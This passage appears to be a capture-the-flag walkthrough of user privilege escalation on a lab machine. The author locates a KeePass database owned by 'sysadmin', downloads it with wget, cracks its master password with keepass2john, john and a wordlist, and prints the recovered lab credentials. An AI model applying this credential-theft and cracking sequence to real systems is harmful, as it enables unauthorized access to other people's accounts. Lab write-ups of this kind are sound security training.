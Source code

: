## 🧍 User Privilege Escalation

- I found the first flag but couldn't read it.

  ```
  www-data@ip-10-10-89-16:/home/sysadmin$ cat local.txt 
  cat: local.txt: Permission denied
  ```
  
- After enumerating for a bit, I found a `.kdbx` file.

  ```
  www-data@ip-10-10-89-16:/home/sysadmin$ find / -type f -user sysadmin 2>/dev/null 
  /opt/dataset.kdbx
  /home/sysadmin/.sudo_as_admin_successful
  /home/sysadmin/.bash_history
  /home/sysadmin/local.txt
  /home/sysadmin/.bashrc
  /home/sysadmin/.bash_logout
  /home/sysadmin/.profile
  ```

  ```
  wget http://10.10.89.16:1234/dataset.kdbx
  --2025-06-03 21:19:13--  http://10.10.89.16:1234/dataset.kdbx
  Connecting to 10.10.89.16:1234... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 1566 (1.5K) [application/octet-stream]
  Saving to: ‘dataset.kdbx’
  
  dataset.kdbx                  100%[==============================================>]   1.53K  --.-KB/s    in 0s 
  ```
  
- This is a KeePass file. You can get the password with John and open the file with `https://app.keeweb.info/` to get the actual credentials.

  ```
  file dataset.kdbx 
  dataset.kdbx: Keepass password database 2.x KDBX
  
  keepass2john dataset.kdbx > keepass.txt
  
  john --wordlist=/rockyou.txt keepass.txt 
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (KeePass [SHA256 AES 32/64])
  Cost 1 (iteration count) is 100000 for all loaded hashes
  Cost 2 (version) is 2 for all loaded hashes
  Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  741852963        (dataset)     
  1g 0:00:00:10 DONE (2025-06-03 21:23) 0.09259g/s 80.74p/s 80.74c/s 80.74C/s chichi..walter
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.

  https://app.keeweb.info/

  open the .kdbx file and put password
  
  sysadmin
  Cl0udP4ss40p4city#8700 
  ```
